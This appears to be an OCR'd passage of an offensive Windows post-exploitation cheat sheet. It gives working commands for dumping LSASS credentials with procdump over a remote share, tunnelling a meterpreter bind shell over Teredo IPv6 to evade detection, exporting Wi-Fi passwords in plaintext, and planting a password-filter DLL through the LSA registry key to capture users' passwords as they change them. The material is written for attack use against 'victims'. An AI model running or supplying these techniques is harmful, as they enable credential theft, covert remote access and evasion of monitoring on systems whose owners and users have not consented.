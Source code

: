 ```
net use \\target server /user:DOM\username password
copy procdump.exe \\targetserver\c$
copy procdump.bat \\targetserver\c$
procdump.exe -ma lsass creds.dump
at \\targetserver 13:37 C:\procdump.bat
copy \\targetserver\c$\targetserver.dmp .
```

### Teredo IPv6 Bindshell
Creating a teredo tunnel to allow a remote victim to tunnel IPv6 packets over IPv4 may allow you to evade some
filter detection systems and extract information from a victim without triggering alerts on the target network.

In order to do this one needs to use a teredo server which will convert IPv4 packets to IPv6 packets and vice versa.
Several publicly available servers are available including:

* teredo.trex.fi
* teredo.remlab.net
* teredo-debian.remlab.net
* teredo.ngix.ne.kr
* win8.ipv6.microsoft.com (This may be shaky on Windows 7, so don't rely on it)

To set up a tunnel, issue the following commands:

```
netsh interface ipv6 install
netsh interface ipv6 teredo enterpriseclient
netsh interface ipv6 teredo set client teredo.trex.fi
msfpayload windows/meterpreter/bind_ipv6_tcp LPORT=5555 X > bind.exe
```

All we have to do at this point is upload the resulting bind.exe payload to the victim, execute it, and then set up
metasploit to connect to the public IPv6 address that the victim was assigned on the specified port (5555 in this example), and we should now be able to get a meterpreter shell using teredo tunneling :)

Further details are available at [http://www.room362.com/blog/2010/09/24/revenge-of-the-bind-shell/](http://www.room362.com/blog/2010/09/24/revenge-of-the-bind-shell/)

### Export Local Wireless Passwords (In Plaintext)
```
netsh wlan export profile key=clear
```

### Capture Password Changes With Password Filters
To do this one simply needs to take the following steps:
* Create a password filtering DLL (see Didler Steven's example password filterer DLL at [http://blog.didierstevens.com/2010/11/15/password-auditing-with-a-password-filter/](http://blog.didierstevens.com/2010/11/15/password-auditing-with-a-password-filter/) if you want an example of some code you can modify to do this)
* Dump the resulting DLL into %WINDIR%\System32\
* Change HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages and add in the location of your DLL as it's value. If the key does not exist, create it first, then set the location as it's value DO NOT ADD IN THE .DLL EXTENSION. (Further details on this stage of the process are detailed at [https://msdn.microsoft.com/en-us/library/windows/desktop/ms721766%28v=vs.85%29.aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms721766%28v=vs.85%29.aspx))
* Reboot the system and wait for passwords to be logged according to the actions defined within your DLL as people change them.
* 
* 
